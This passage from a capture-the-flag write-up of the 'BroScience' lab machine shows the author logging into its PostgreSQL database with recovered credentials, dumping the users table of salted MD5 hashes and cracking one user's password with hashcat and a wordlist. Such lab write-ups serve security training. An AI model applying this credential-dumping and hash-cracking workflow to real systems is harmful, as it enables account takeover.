 Awesome. We have the user, database name and password. We also seem to have a salt here (Literally NaCL. Funny). This hints to me that, the hashes are probably salted. We should keep that in mind. Let’s try to view the tables.

```zsh
(remote) www-data@broscience:/home/bill$ psql -h localhost -p 5432 -U dbuser -d broscience -W
Password:
psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience-> \dt
           List of relations
 Schema |   Name    | Type  |  Owner
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres
(3 rows)
```

The passwords are most likely in `users` so let’s check that.

```zsh
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
(5 rows)
```

Now we have all the hashes. Since we are only interested in `bill`, we solely crack his password to save some time (Although I did crack others).

```zsh
~/Tmp > cat hash                                                                                                                             10s root@kali 02:10:19 AM
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 13edad4932da9dbb57d9cd15b66ed104:NaCl
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
~/Tmp > hashcat -a 0 hash /usr/share/wordlists/rockyou.txt -m 20 --show                                                                          root@kali 02:10:25 AM
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```

